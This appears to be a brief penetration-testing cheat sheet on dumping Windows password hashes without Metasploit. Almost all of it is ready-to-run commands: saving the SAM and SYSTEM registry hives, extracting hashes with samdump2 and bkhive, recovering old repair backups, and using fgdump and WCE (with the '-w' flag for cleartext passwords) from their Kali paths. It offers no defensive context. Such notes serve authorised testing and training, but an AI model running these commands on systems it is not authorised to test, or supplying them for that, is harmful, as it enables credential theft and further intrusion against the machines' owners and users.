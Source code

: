 # Windows HashDump without metasploit

##  Windows Passwords

### Reg Commands to get passwords' file

System file 

`reg save HKLM\System system.hive`

SAM File 

`reg save HKLM\SAM sam.hive`


### HASHDUMP

`samdump2 system.hive sam.hive`


#### Windows Repair

Backup files < Windows 2003

`c:\windows\repair`

Donwload sam and system.

`bkhive system key.txt`
`samdump2 sam key.txt`


### FGDump

Kali Path:  /usr/share/windows-binaries/fgdump/fgdump.exe


### WCE

Kali Paths:
* /usr/share/wce/wce32.exe
* /usr/share/wce/wce64.exe
* /usr/share/wce/wce-universal.exe

Get pass

`wce-universal.exe `

Try to get pass into clear text

`wce-universal.exe -w`






